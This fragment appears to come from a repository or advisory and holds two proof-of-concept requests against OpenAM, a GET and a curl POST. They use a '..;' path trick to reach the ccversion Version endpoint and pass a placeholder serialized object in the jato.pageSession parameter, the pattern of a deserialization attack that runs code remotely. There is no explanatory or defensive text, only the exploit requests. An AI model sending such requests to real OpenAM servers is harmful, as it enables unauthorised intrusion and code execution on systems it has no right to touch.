 POC1
----

    GET /openam/oauth2/..;/ccversion/Version?jato.pageSession=<serialized_object>

POC2
----

    curl -v "http://127.0.0.1:7080/openam/oauth2/..;/ccversion/Version" -d jato.pageSession=<serialized_object>